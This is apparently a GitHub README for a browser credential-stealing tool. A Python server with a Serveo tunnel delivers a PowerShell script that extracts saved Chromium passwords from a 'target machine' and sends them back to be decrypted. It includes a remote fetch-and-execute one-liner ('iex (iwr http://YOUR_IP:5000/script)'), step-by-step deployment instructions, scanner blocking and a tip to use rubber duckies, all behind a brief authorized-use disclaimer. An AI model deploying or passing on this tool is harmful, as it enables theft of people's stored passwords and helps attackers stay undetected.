 # Browser Credential Collector

A tool designed to securely collect and decrypt stored browser credentials from remote systems. This tool helps security professionals and system administrators assess password security and demonstrate how easily browser-stored credentials can be retrieved.

1. It will connect to a serveo tunnel allowing it to be accessable via the internet
2. Customizes a unique useragent per user request to ensure it isn't spammed
3. Decrypts the passwords locally

## 🚨 Important Notice

This tool is intended for **AUTHORIZED USE ONLY**. Always obtain proper permissions before using on any system. Unauthorized use against systems you don't own or have explicit permission to test is illegal and unethical. Red team engagements and rubber duckies work awesome with this.

## 🔑 Features

- Securely collects stored browser credentials
- Automatically decrypts passwords using browser encryption keys
- Real-time monitoring dashboard
- Secure token-based authentication
- Protection against scanning and unauthorized access
- Public access via Serveo tunneling (optional)
- Rate limiting to prevent abuse

## 📋 Requirements

- Python 3.6+
- OpenSSH client (for Serveo tunneling)
- PyCryptodome (optional, for better decryption support)

## 💻 Quick Start

1. **Clone the repository**

```bash
git clone https://github.com/pentestfunctions/chromium_passwords_local_collection.git
cd chromium_passwords_local_collection
```

2. **Install optional dependencies**

```bash
pip install pycryptodome
```

3. **Run the server**

```bash
python3 credential_collector.py
```

4. **Execute the PowerShell script on target system**

```powershell
# Run this on the target machine
iex (iwr http://YOUR_IP:5000/script)
```

If you're using Serveo tunneling, the URL will be displayed in the console.

## 📚 How It Works

1. The server runs on your machine and generates unique tokens
2. When a target accesses the `/script` endpoint, they receive a customized PowerShell script with a unique token
3. The PowerShell script extracts stored browser credentials and securely sends them back to the server
4. The server decrypts and stores the credentials
5. All activity is monitored in real-time through the console dashboard

## 🔒 Security Features

- One-time tokens for script authentication
- Rate limiting to prevent abuse
- Scanner detection to block common vulnerability scanners
- IP blocking for suspicious activity
- All credentials stored locally in JSON format

## 📊 Understanding the Dashboard

The dashboard shows:
- Server information (local and public URLs)
- Collection statistics (credentials collected, success rates)
- Recent events
- Tunnel status (if using Serveo)
- List of collected credential files
- Blocked IPs

## ❓ Troubleshooting

**Error: "pycryptodome not found"**
- Install with: `pip install pycryptodome`

**Can't establish Serveo tunnel**
- Make sure SSH is installed and can connect to external services
- Try running with `--no-serveo` to use local network only

**No credentials collected**
- Verify the target system has Chrome/Chromium-based browsers installed
- Check that the PowerShell script is running with sufficient permissions
